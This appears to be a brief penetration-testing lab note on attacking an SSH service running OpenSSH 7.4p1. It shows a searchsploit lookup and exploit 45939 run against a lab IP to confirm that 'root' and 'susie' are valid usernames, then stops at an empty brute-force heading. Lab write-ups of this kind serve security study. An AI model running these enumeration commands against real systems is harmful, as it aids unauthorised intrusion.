

Attack Vector 1 - SSH

# Searchsploit
`searchsploit OpenSSH 7.4p1`

## 45939 Exploit
This exploit verifies usernames. We can verify that root and susie are valid login names.

`python 45939.py 10.11.1.146 susie`

`python 45939.py 10.11.1.146 root`

# Brute force

